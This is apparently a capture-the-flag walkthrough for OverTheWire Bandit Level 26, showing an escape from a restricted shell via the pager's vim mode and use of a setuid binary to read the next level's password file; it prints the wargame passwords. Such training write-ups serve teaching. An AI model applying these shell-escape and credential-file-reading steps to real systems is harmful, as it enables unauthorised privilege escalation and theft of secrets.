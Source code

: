 # OverTheWire Bandit CTF – Level 26

## 🏆 **Goal**  
The goal of Bandit Level 26 is to break out of the restricted shell and execute a setuid binary to retrieve the password for **bandit27**.

---

## 🚀 **Steps to Solve**

### 1. **Connect via SSH**  
Use the password obtained from Level 25 to log into **bandit26** using SSH:

```bash
ssh bandit26@bandit.labs.overthewire.org -p 2220
```

- **Username:** bandit26  
- **Hostname:** bandit.labs.overthewire.org  
- **Port:** 2220  

When prompted, enter the password from Level 25:

```
s0773xxkk0MXfdqOfPRVr9L3jJBUOgCZ
```

---

### 2. **Bypass the Restricted Shell**  
After logging in, you will face the same restricted shell (`/usr/bin/showtext`) that runs the `more` command.

1. **Press** `v` – this will open the file in **vim**.  
2. Inside vim, change the shell to `/bin/bash`:

```bash
:set shell=/bin/bash
```

3. Launch the shell from vim:

```bash
:shell
```

---

### 3. **Confirm Shell Access**  
Check if you have shell access:

```bash
whoami
```

Example output:
```
bandit26
```

---

### 4. **Explore Files**  
List the files in the home directory:

```bash
ls -la
```

Output:
```
-rwsr-x--- 1 bandit27 bandit26 7302 Mar 30  2021 bandit27-do
```

The `bandit27-do` file is a **setuid binary** owned by bandit27. It allows you to execute commands as **bandit27**.

---

### 5. **Execute the Setuid Binary**  
Run the setuid binary to read the password for **bandit27**:

```bash
./bandit27-do cat /etc/bandit_pass/bandit27
```

Example output:
```
upsNCc7vzaRDx6oZC6GiR6ERwe1MowGB
```

---

## 🔑 **Password for Next Level**  
The password for **Level 27** is:

```
upsNCc7vzaRDx6oZC6GiR6ERwe1MowGB
```

---

## ✅ **Summary**  
✔️ Bypassed the restricted shell using vim.  
✔️ Gained shell access.  
✔️ Leveraged the setuid binary to retrieve the next password.  

---

## 📸 **Screenshot**  
![Level-26](https://github.com/user-attachments/assets/53379e0d-21a1-44fd-a312-f77fe3151d58)<br/>
![Level-26](https://github.com/user-attachments/assets/a079a8d5-f96f-478e-8ce2-127417b4ead0)
![Level-26](https://github.com/user-attachments/assets/5365c4cc-6ed8-4048-9434-585f6c4d802e)

---

**Next Step:** Proceed to [Level 27](https://overthewire.org/wargames/bandit/bandit27.html) to continue the challenge.  

---
